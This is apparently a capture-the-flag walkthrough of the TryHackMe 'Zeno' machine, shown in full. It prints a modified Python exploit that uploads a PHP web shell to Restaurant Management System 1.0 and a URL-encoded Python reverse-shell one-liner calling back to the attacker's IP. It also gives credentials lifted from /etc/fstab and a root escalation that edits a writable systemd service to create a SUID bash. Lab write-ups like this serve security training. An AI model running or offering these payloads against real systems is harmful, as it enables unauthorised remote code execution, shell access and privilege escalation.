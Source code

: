 ```yaml
---
layout: post
title:  "Zeno"
categories: [tryhackme]
tags: [linux, rce, upload, vi, service, linpeas]
---
```


You can find this machine here : `https://tryhackme.com/room/zeno`

### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -Pn zeno.thm -p-

PORT      STATE SERVICE
22/tcp    open  ssh
12340/tcp open  unknown
```

### Directory Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ gobuster dir -u http://zeno.thm:12340/  -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowerca
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://zeno.thm:12340/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,bak
[+] Timeout:                 10s
===============================================================
2022/02/25 20:00:44 Starting gobuster in directory enumeration mode
===============================================================
/rms                  (Status: 301) [Size: 239] [--> http://10.10.190.102:12340/rms/]
```

![image]( /assets/img/zeno/1.PNG)

### Restaurant Management System 1.0 - Remote Code Execution


```bash
┌──(kali㉿Zeus)-[~/Desktop]
└─$ searchsploit Restaurant Management System
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Restaurant Management System 1.0 - Remote Code Execution                         | php/webapps/47520.py
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                   
┌──(kali㉿Zeus)-[~/Desktop]
└─$ locate php/webapps/47520.py
/usr/share/exploitdb/exploits/php/webapps/47520.py
                                                                                                                   
┌──(kali㉿Zeus)-[~/Desktop]
└─$ cp /usr/share/exploitdb/exploits/php/webapps/47520.py .
```

- Modified Script

```python
import requests
import sys

url = sys.argv[1]

if len(sys.argv[1]) < 8:
	print("[+] Usage : python rms-rce.py http://localhost:80/")
	exit()

print ("[+] Restaurant Management System Exploit, Uploading Shell")

target = url+"admin/foods-exec.php"



headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Length": "327",
    "Content-Type": "multipart/form-data;boundary=---------------------------191691572411478",
    "Connection": "close",
	"Referer": "http://zeno.thm:12340/rms/admin/foods.php",
	"Cookie": "PHPSESSID=4dmIn4q1pvs4b79",
	"Upgrade-Insecure-Requests": "1"

}

data = """

-----------------------------191691572411478
Content-Disposition: form-data; name="photo"; filename="reverse-shell.php"
Content-Type: text/html

<?php echo shell_exec($_GET["cmd"]); ?>
-----------------------------191691572411478
Content-Disposition: form-data; name="Submit"

Add
-----------------------------191691572411478--
"""
r = requests.post(target,verify=False, headers=headers,data=data)


print("[+] Shell Uploaded. Please check the URL :"+url+"images/reverse-shell.php")
```

### Upload The Backdoor

```bash
┌──(kali㉿Zeus)-[~/Desktop]
└─$ python3 47520.py http://zeno.thm:12340/rms/
[+] Restaurant Management System Exploit, Uploading Shell
[+] Shell Uploaded. Please check the URL :http://zeno.thm:12340/rms/images/reverse-shell.php
```

### Reverse Shell

- Browser

```bash
http://zeno.thm:12340/rms/images/reverse-shell.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.18.45.56%22,4444));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```

- Listener

```bash
┌──(kali㉿Zeus)-[~]
└─$ nc -lnvp 4444             
listening on [any] 4444 ...
connect to [10.18.45.56] from (UNKNOWN) [10.10.190.102] 51022
sh-4.2$
```

![image]( /assets/img/zeno/2.PNG)

### LinPeas

![image]( /assets/img/zeno/4.PNG)

- Found Possible Credentials

![image]( /assets/img/zeno/5.PNG)

```
/etc/fstab:#//10.10.10.10/secret-share        /mnt/secret-share       cifs    _netdev,vers=3.0,ro,username=zeno,password=Frobj<REMOVED>anJa,domain=localdomain,soft 0 0
```

- Edward Credentials

```
edward : Frobj<REMOVED>anJa
```

### User Owned

![image]( /assets/img/zeno/6.PNG)

### Root PrivEsc - Writable Service

```bash
[edward@zeno ~]$ sudo -l

User edward may run the following commands on zeno:
    (ALL) NOPASSWD: /usr/sbin/reboot
[edward@zeno ~]$ 
```

- Run LinPeas as edward

```bash
/etc/systemd/system/multi-user.target.wants/zeno-monitoring.service
/etc/systemd/system/zeno-monitoring.service
```

![image]( /assets/img/zeno/7.PNG)


- Old `zeno-monitoring.service`

```bash 
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/root/zeno-monitoring.py

[Install]
WantedBy=multi-user.target
```

![image]( /assets/img/zeno/8.PNG)


- New `zeno-monitoring.service` using vi


1. vi zeno-monitoring.service
2. Go to ExecStart line using arrows
3. Press i for INSERT
4. Replace the `/root/zeno-monitoring.py` with the `/bin/bash -c "cp /bin/bash /home/edward/bash; chmod +s /home/edward/bash"`
6. Press ESC 2 or more times
7. Press :x!

```bash 
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c "cp /bin/bash /home/edward/bash; chmod +s /home/edward/bash"

[Install]
WantedBy=multi-user.target
```

### Root Owned

Resource : `https://book.hacktricks.xyz/linux-unix/privilege-escalation#cron-path`

```bash
[edward@zeno system]$ sudo -u root /usr/sbin/reboot
```

![image]( /assets/img/zeno/10.PNG)